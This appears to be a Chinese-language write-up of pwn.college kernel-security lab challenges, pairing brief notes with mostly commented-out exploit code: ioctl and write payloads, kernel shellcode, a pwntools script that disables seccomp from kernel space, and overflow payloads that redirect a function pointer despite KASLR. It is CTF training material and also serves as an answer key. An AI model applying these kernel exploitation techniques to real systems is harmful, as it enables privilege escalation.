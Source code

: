```yaml
---
title: pwn.college Kernel Security
date: 2024-07-15 15:44:34
tags: [pwn.college, Kernel]
categories: 
    - pwn.college
    - Kernel Security
---
```



# 前言
- 根据要求只贴前两个的WriteUp，后续只写思路
- 每个题的驱动都是跑在qemu虚拟机的，开启题目后需要`vm connect`连上qemu，此时`lsmod`就可以看见安装好的驱动

# level1.0
```Shell
echo pwvrvqitxoodqbxa > /proc/pwncollege | head /proc/pwncollege
```

# level1.1
```Shell
echo ufyqfbjmxahuzqzi > /proc/pwncollege | head /proc/pwncollege
```

# level2.0
```Shell
echo clxyrfcckjpuexis > /proc/pwncollege | dmesg
```

# level2.1
```Shell
echo ccvqignnvespgtyp > /proc/pwncollege | dmesg
```

# level3.0
write写"xpmylzhkfevejscw"
<!-- ```Shell
echo xpmylzhkfevejscw > /proc/pwncollege | cat /flag
``` -->

# level3.1
同 level3.0
<!-- ```Shell
echo gwcifabytyzfdpjo > /proc/pwncollege | cat /flag
``` -->

# level4.0
ioctl传递"emrbpgldsrexybrh"
<!-- ```C
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"emrbpgldsrexybrh");
    system("/bin/sh");
    return 0;
}
``` -->

# level4.1
同 level4.0
<!-- ```C
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"gixhsazzowbivqrw");
    system("/bin/sh");
    return 0;
}
``` -->

# level5.0
ioctl传递后门函数的地址即可
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  long win = 0xffffffffc00004cd;
  int fd = open("/proc/pwncollege", O_WRONLY);
  ioctl(fd, 1337, win);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level5.1
同 level5.0
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  long win = 0xffffffffc0000752;
  int fd = open("/proc/pwncollege", O_WRONLY);
  ioctl(fd, 1337, win);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level6.0
直接传shellcode过去，它会自己执行
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  int fd = open("/proc/pwncollege", O_WRONLY);
  write(fd,shellcode,sizeof(shellcode));
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level6.1
同 level6.0

<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  int fd = open("/proc/pwncollege", O_WRONLY);
  write(fd,shellcode,sizeof(shellcode));
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->


# level7.0
需要传一个结构体，字段如下：
```C
struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};
```
传入的shellcode会被复杂都内核开辟的一段可执行地址内，该地址固定，将call_addr设置为该地址就可以跳过去执行shellcode
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  // char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xe0\x95\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\xc0\x92\x08\x81\xff\xd0\xc3";
  struct buf A;
  int fd = open("/proc/pwncollege", O_WRONLY);
  A.size=4096;
  memcpy(A.shellcode,shellcode,sizeof(shellcode));
  // A.call_addr=0xffffc90000045000;//local
  A.call_addr=0xffffc90000085000;//remote
  ioctl(fd, 1337, &A);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->

# level7.1
同 level7.0
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  // char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xe0\x95\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\xc0\x92\x08\x81\xff\xd0\xc3";
  struct buf A;
  int fd = open("/proc/pwncollege", O_WRONLY);
  A.size=4096;
  memcpy(A.shellcode,shellcode,sizeof(shellcode));
  // A.call_addr=0xffffc90000045000;//local
  A.call_addr=0xffffc90000085000;//remote
  ioctl(fd, 1337, &A);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
``` -->


# level8.0
这个卡了两天0.0，需要注意下面几个点：
- /proc/challenge只有root用户才有RW权限
- /challenge下除了babykernel_level8.1.ko还有带SUID的ELF程序babykernel_level8.1
- babykernel_level8.1可以执行任意shellcode，但是seccomp禁用了除了write外的所有系统调用；babykernel_level8.1.ko的write可以接收用户空间的shellcode以执行
- 因为babykernel_level8.1有SUID所以可以读写/proc/challenge
- 思路就是通过babykernel_level8.1向/proc/challenge写入shellcode在内核空间中关闭seccomp，然后在用户空间ORW读取flag
- 注意通过current_task_struct->thread_info.flags关闭seccomp只能作用于该进程，通过system('/bin/sh')获取的shell是子进程，seccomp仍然生效

<!-- ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babykernel_level8.1')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
rdi=0x0000000000402273
sc=b'j\x03_j-Z\xbe\xa0p31j\x01X\x0f\x05H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f\x01\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x04_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20j\x01X\x0f\x05'
sc=sc.ljust(0xa0,b'\x90')
sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xff\xc3\x00'
# sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xffH\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3\x00'

io.sendline(sc)
# io.sendline("cat /flag")
io.interactive()

``` -->

# level8.1
同 level8.0
<!-- ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babykernel_level8.1')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
rdi=0x0000000000402273
sc=b'j\x03_j-Z\xbe\xa0p31j\x01X\x0f\x05H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f\x01\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x04_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20j\x01X\x0f\x05'
sc=sc.ljust(0xa0,b'\x90')
sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xff\xc3\x00'
# sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xffH\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3\x00'

io.sendline(sc)
# io.sendline("cat /flag")
io.interactive()

``` -->

# level9.0

可以控制第一个参数call任意函数，run_cmd("chmod 777 /flag")
<!-- ```C
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  int fd = open("/proc/pwncollege", O_WRONLY);
  char payload[]="/bin/chmod 777 /flag ;;;;;;;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x80\x95\x08\x81\xff\xff\xff\xff";
  write(fd,payload,264);
  return 0;
}
``` -->
# level9.1

同 level9.0


# level10.0
和level9一样，但是开启了KASLR，泄露printk地址后计算run_cmd偏移再通过溢出修改printk指针为run_cmd
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>

void int64_to_bytes(int64_t num, uint8_t *bytes, int byte_count) {
    for (int i = 0; i < byte_count; i++) {
        bytes[i] = (num >> (8 * i)) & 0xFF;
    }
}


int main() {
  long printk_addr,run_cmd_addr;
  printk_addr=0xffffffffaf8b6309;
  run_cmd_addr=printk_addr-0x2CD89;
  uint8_t bytes[8];
  int64_to_bytes(run_cmd_addr,bytes,8);
  int fd = open("/proc/pwncollege", O_WRONLY);
  char payload[]="/bin/chmod 777 /flag ;;;;;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
  memcpy(payload+256,bytes,8);
  write(fd,payload,264);
  return 0;
}
 -->

# level10.1
同 level10.0

# level11.0

# level11.1

